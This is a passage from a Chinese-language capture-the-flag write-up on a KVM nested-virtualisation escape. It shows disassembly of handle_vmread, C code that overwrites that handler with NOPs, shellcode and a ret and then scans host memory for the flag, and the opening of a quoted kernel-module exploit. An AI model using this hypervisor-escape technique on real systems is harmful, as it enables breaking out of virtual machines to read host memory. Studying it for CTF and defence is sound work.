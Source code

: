 当然不能直接生猛的覆盖，不然可能出现故障无法返回到虚拟机，所以这里提前先将成功返回的必经的范围都覆盖为nop，保存寄存器同时最后还原寄存器，最后覆盖最后为ret（这里可以结合调试试试覆盖后哪些指令返回后能正常返回虚拟机）

这里覆盖000000000001F751之前的都为nop，然后000000000001F756为ret可成功返回虚拟机

```php
.text:000000000001F74E                                                 loc_1F74E:                              ; CODE XREF: handle_vmread+43D↓j
.text:000000000001F74E 48 89 EF                                                        mov     rdi, rbp
.text:000000000001F751 E8 DA 39 FF FF                                                  call    nested_vmx_succeed
.text:000000000001F756为ret可成功返回虚拟机 E9 F6 FD FF FF                                                  jmp     loc_1F551
```

```c
memset(handle_vmread, 0x90, 0x281);
    handle_vmread[0x286] = 0xc3;

    memcpy(handle_vmread, shellcode, sizeof(shellcode)-1);

    read_realative(0);

    // scan for flag in memory
    for (i = 0; i < 1<<18; i+= 0x1000) {
        if (!memcmp(0xffff880000000000 + i, "corctf{", 7)) {
            pr_info("flag: %s\n", 0xffff880000000000 + i);
            break;
        }
    }

```

exp
===

由于本人复现的exp有些过于丑陋，为了读者能够更好的参考到，这里还是附上我参考的Shellphish的wp

```c
#include <linux/init.h>
#include <linux/slab.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/proc_fs.h>
#include <linux/sched.h>
#include <linux/kprobes.h>
#include <linux/version.h>
#include <linux/efi.h>

#include <asm/uaccess.h>
#include <asm/fsgsbase.h>
#include <asm/io.h>
#include <linux/uaccess.h>

static ssize_t proc_read(struct file* filep, char* __user buffer, size_t len, loff_t* offset);
static ssize_t proc_write(struct file* filep, const char* __user u_buffer, size_t len, loff_t* offset);
static int proc_open(struct inode *inode, struct file *filep);

#if LINUX_VERSION_CODE >= KERNEL_VERSION(5,5,0)

static struct proc_ops fops = {
    .proc_open = proc_open,
    .proc_read = proc_read,
    .proc_write = proc_write,
};
```